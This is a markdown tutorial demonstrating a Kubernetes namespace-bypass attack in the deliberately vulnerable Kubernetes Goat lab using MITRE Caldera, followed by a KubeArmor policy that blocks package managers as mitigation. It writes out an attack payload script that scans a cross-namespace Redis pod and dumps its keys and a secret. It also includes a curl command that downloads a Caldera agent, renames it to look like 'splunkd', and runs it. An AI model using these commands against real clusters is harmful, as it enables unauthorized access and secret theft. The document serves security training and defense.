

# Demonstration Using Kubernetes Goat and Caldera

## Kubernetes Goat Scenario: Namespace Bypass

This scenario demonstrates how to bypass namespace restrictions and access resources across namespaces.

### Setup

1. We have already deployed Kubernetes Goat.

2. In Kubernetes Goat, there is a cache storage running in another namespace called `secure-middleware`:
    ```bash
    kubectl get pods -n secure-middleware
    ```

3. For this demonstration, we will use the IP address of the `cache-store` pod in the `secure-middleware` namespace:
    ```bash
    kubectl get pods -n secure-middleware -o json | jq -r '.items[].status.podIP'
    ```


## Caldera Setup and Demonstration

### Prerequisites

Ensure you have the following installed:
1. Python 3
2. Node.js

### Caldera Installation

1. Clone the Caldera repository:
    ```bash
    git clone https://github.com/mitre/caldera.git --recursive
    cd caldera/
    ```

2. Create and activate a Python virtual environment:
    ```bash
    python3 -m venv venv
    source venv/bin/activate
    ```

3. Install the required Python packages:
    ```bash
    pip install -r requirements.txt
    ```

### Adding Abilities and Payloads

1. Create a directory for abilities:
    ```bash
    mkdir -p ~/caldera/data/abilities/command-and-control
    ```

2. Create a new ability file:
    ```bash
    nano ~/caldera/data/abilities/command-and-control/7d9fe48e-7fe2-49ed-8f59-5a6a3015b66b.yml
    ```

    Add the following content to the file:
    ```yaml
    -   tactic: command-and-control
        technique_name: Network Service Discovery
        technique_id: T1254
        name: test
        description: test
        executors:
        - name: sh
            platform: linux
            command: ./test.sh
            code: null
            language: null
            build_target: null
            payloads:
            - test.sh
            uploads: []
            timeout: 600
            parsers: []
            cleanup: []
            variations: []
            additional_info: {}
        requirements: []
        privilege: ''
        repeatable: false
        buckets:
        - command-and-control
        additional_info: {}
        access: {}
        singleton: false
        plugin: ''
        delete_payload: true
        id: 7d9fe48e-7fe2-49ed-8f59-5a6a3015b66b
    ```

3. Create a new payload file:
    ```bash
    nano ~/caldera/data/payloads/test.sh
    ```

    Add the following content to the file:
    ```bash
    #!/bin/bash

    apt update -y
    apt install nmap redis-tools -y

    echo '[+] Starting'
    nmap -Pn -sV <CACHE_STORE_POD_IP> -p 6379
    redis-cli -h <CACHE_STORE_POD_IP> keys '*'
    echo '[+] Complete with module'
    # redis-cli -h <CACHE_STORE_POD_IP> get 'SECRETSTUFF'
    ```

Replace `<CACHE_STORE_POD_IP>` with the IP address obtained from the previous Kubernetes command.


### Starting Caldera

1. Set the Caldera URL environment variable and start the Caldera server:
    ```bash
    export VITE_CALDERA_URL=http://<SERVER_IP>:8888 && python3 server.py --insecure --build
    ```

2. Open your browser and visit `http://<SERVER_IP>:8888/`. Use the default credentials (`admin:admin`) to log in.



### Deploying the Caldera Agent

Assuming we have internal access to a Kubernetes pod, follow these steps to deploy the Caldera agent:

1. Create a Kubernetes deployment file (`depl.yaml`) with the following content:
    ```yaml
    apiVersion: apps/v1
    kind: Deployment
    metadata:
      name: ubuntu-deployment
      namespace: default
    spec:
      replicas: 1
      selector:
        matchLabels:
          app: ubuntu
      template:
        metadata:
          labels:
            app: ubuntu
        spec:
          containers:
          - name: ubuntu
            image: python:slim
            command: ["/bin/bash", "-c", "while true; do sleep 30; done;"]
    ```

2. Apply the deployment:
    ```bash
    kubectl apply -f depl.yaml
    ```


3. Access the Ubuntu pod:
    ```bash
    kubectl exec -ti ubuntu-deployment-xxxxxxx bash
    ```
4. Install nano for creating the agent.sh file.
    ```bash
    apt update -y && apt install nano -y
    ```

4. Inside the pod, install necessary packages and set up the Caldera agent:
    ```bash
    apt update -y 
    apt install curl -y

    server="http://<SERVER_IP>:8888"
    socket="<SERVER_IP>:7010"
    curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd
    chmod +x splunkd
    ./splunkd -server $server -group red -v
    ```

After running these commands, you should see the agent is live on the Caldera dashboard under the "Agents" tab.


### Creating and Running an Operation

1. Create a new adversary profile named "Demo" and add the abilities:
   - Hostname discover
   - Test (previously created with the YAML file and placed in the appropriate directories)


2. Open the "Operations" tab, create a new operation named "Demo," and select the adversary profile "Demo."


3. Start the operation.

4. Monitor the output in the operations console. You can also execute manual commands, such as:
    ```bash
    redis-cli -h <CACHE_STORE_POD_IP> get 'SECRETSTUFF'
    ```

    This will allow you to see the secret data stored in Redis.


By following these steps, you can demonstrate the capabilities of Caldera in a Kubernetes environment and understand the potential security implications of namespace misconfigurations.

## Mitigation with KubeArmor

In this demonstration, We will then demonstrate how a KubeArmor policy can be used to prevent this attack by blocking tool installations.

To prevent the attack, we will use KubeArmor to block the installation of tools like `nmap` and `redis-tools` by preventing the use of `apt` within the pod.

1. **Apply the KubeArmor Policy**

   Create and apply a KubeArmor policy to block `apt` and `apt-get` commands:

   ```yaml
   apiVersion: security.kubearmor.com/v1
   kind: KubeArmorPolicy
   metadata:
     name: block-pkg-mgmt-tools-exec
   spec:
     selector:
       matchLabels:
         app: ubuntu
     process:
       matchPaths:
       - path: /usr/bin/apt
       - path: /usr/bin/apt-get
     action:
       Block
   ```

   Apply the policy with:
   ```bash
   kubectl apply -f <your-policy-file>.yaml
   ```

2. **Run the Caldera Operation**

   With the KubeArmor policy applied, attempt to run the Caldera operation again. The operation should fail at the point where it tries to install tools, demonstrating the effectiveness of the policy in preventing tool-based attacks.

## References

- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)
